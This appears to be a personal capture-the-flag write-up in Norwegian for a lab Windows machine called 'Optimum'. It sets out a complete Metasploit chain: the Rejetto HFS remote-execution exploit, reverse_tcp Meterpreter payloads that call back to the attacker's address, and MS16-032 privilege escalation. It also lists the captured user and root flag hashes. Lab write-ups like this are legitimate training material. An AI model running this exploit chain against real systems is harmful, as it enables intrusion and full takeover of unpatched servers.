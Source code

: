 ## optimum 10.10.10.8

windows server 2012 x64

nmap port 80

hfs 2.3 server. finnes exploit

`use exploit/windows/http/rejetto_hfs_exec`

sett srvhost til samme som lhost men ikke srvport

husk å sette lhost også

`use post/multi/manage/shell_to_meterpreter`

user.txt **d0c39409d7b994a9a1389ebf38ef5f73**

MS16-032 SYSTEM Privilege Escalation

prøvd å laste opp ps1-script og får kjørt det, men prosessen ligger i bakgrunnen.- sjekk ps kommando

må finne en måte å få reverse shell fra powershellet

`use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

tror denne er riktig.

`use post/multi/recon/local_exploit_suggester`**  **

```
use exploit/windows/local/payload_inject
set payload windows/powershell_reverse_tcp
```

`Import-Module ./lol.ps1`

`Invoke-MS16-032`

gjøre fra 32 til 64 bit shell

`use windows/local/payload_inject`

`set payload windows/x64/meterpreter/reverse_tcp`

skal ikke være patchet i følge `get-hotfix`

`PS C:\Users\kostas\Desktop>get-executionpolicy`

`Bypass`

skal være mulig å execute hva som helst

`set target 1 `**- viktig for å sette target til x64**



ting som må stemme:

**må ha et x64 meterpreter shell**

**må sette target til x64**

**må sette payload til x64/meterpreter**



`set payload windows/x64/meterpreter/reverse_tcp`

`use exploit/windows/http/rejetto_hfs_exec`

`set srvhost 10.10.12.238`

`set lhost 10.10.12.238`

`set rhost 10.10.10.1`

`set lport 4444`

`exploit`



`use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

`set session 1`

`set target 1`

`set lhost 10.10.12.238`

`set lport 4444`

`exploit`



root.txt **51ed1b36553c8461f4552c2e92b3eeed**

